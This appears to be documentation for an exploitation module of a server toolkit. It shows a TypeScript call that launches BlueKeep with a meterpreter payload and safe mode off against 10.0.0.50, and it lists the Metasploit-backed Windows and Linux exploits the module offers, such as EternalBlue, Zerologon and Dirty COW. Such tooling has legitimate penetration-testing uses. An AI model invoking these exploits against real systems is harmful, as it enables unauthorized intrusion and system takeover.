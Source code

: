 ### Advanced Exploitation
```typescript
const advancedExploit = await exploit_framework({
  target: "10.0.0.50",
  exploit_name: "bluekeep",
  vulnerability: "CVE-2019-0708",
  payload_type: "meterpreter",
  safe_mode: false,
  cleanup_after: true,
  timeout: 300000 // 5 minutes
});

// Check exploitation results
if (advancedExploit.results.shell_obtained) {
  console.log("Shell access obtained successfully");
}
if (advancedExploit.results.privileges_escalated) {
  console.log("Privilege escalation successful");
}
```

## Integration Points

### Server Integration
- **Full Server**: ✅ Included
- **Modular Server**: ✅ Included  
- **Minimal Server**: ❌ Not included
- **Ultra-Minimal Server**: ❌ Not included

### Dependencies
- Platform-specific exploitation tools
- Metasploit framework integration
- Custom exploit modules
- Elevated permissions for system access

## Available Exploits

### Windows Exploits
- **EternalBlue (MS17-010)**: SMB vulnerability exploitation
- **BlueKeep (CVE-2019-0708)**: RDP vulnerability exploitation
- **PrintNightmare**: Print spooler vulnerability
- **Zerologon**: Active Directory vulnerability
- **SMBGhost**: SMBv3 vulnerability

### Linux Exploits
- **Dirty COW (CVE-2016-5195)**: Kernel privilege escalation
- **Shellshock (CVE-2014-6271)**: Bash vulnerability
- **Heartbleed (CVE-2014-0160)**: OpenSSL vulnerability
- **DROWN**: SSL/TLS vulnerability
- **Sudo Vulnerability**: Sudo privilege escalation

